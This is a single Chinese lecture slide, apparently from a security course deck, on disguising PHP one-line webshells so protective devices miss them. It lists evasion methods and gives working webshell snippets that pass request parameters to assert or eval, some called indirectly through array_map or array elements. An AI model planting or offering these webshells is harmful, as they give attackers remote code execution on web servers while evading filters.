

# 一句话木马的变形技巧
如果不做伪装，不对特征进行隐藏或变形，会被防护设备过滤
变形技巧
更换执行数据来源
字符替换或特殊编码
采用隐匿手段
混合上述手段
<? php
$a ='assert';
array_map("$a",$_REQUEST);
?>

<? php
$item['JON'] = 'assert';
$array[ ] = $item;
$array[0]['JON']($_POST['TEST']);  //密码TEST
?>

最终实现
assert($_REQUEST)

在php中有许多的代码执行函数
例如
<php  eval（$_request[8]);?>  //eval 把字符串作为PHP代码执行.     可以多行执行
<php  assert（$_request[8]);?> //assert将传入的参数当成PHP代码.只能单行执行
23
2022/6/11